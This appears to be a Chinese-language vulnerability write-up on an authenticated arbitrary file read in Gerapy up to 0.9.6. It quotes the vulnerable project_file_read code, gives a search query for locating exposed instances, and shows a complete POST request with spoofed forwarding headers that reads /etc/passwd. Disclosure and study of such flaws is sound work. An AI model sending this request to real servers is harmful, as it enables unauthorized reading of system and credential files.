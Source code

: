 # Gerapy read 后台任意文件读取漏洞

# Gerapy read 后台任意文件读取漏洞

## 漏洞描述

Gerapy gerapy/server/core/views.py 中的 project_file_read 方法存在任意文件读取，攻击者登录后台后发送特定的请求包即可利用漏洞

## 漏洞影响

```
Gerapy <= 0.9.6
```

## 网络测绘

```
title="Gerapy"
```

## 漏洞复现

登录页面

![image-20220524145252413](/images/202205241452469.png)

出现漏洞的文件为 `gerapy/server/core/views.py`

![](/images/202205241453657.png)

```
@api_view(['POST'])
@permission_classes([IsAuthenticated])
def project_file_read(request):
    """
    get content of project file
    :param request: request object
    :return: file content
    """
    if request.method == 'POST':
        data = json.loads(request.body)
        path = join(data['path'], data['label'])
        # binary file
        with open(path, 'rb') as f:
            return HttpResponse(f.read().decode('utf-8'))
```

参数 path 和 label 都为用户可控变量，登录后构造请求包

```
POST /api/project/file/read HTTP/1.1
Host: 
Content-Length: 35
Accept: application/json, text/plain, */*
Authorization: Token 0fb31a60728efd8e6398349bea36fa7629bd8df0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.55 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close

{"path":"/etc/",
"label":"passwd"}
```

![](/images/202205241453910.png)

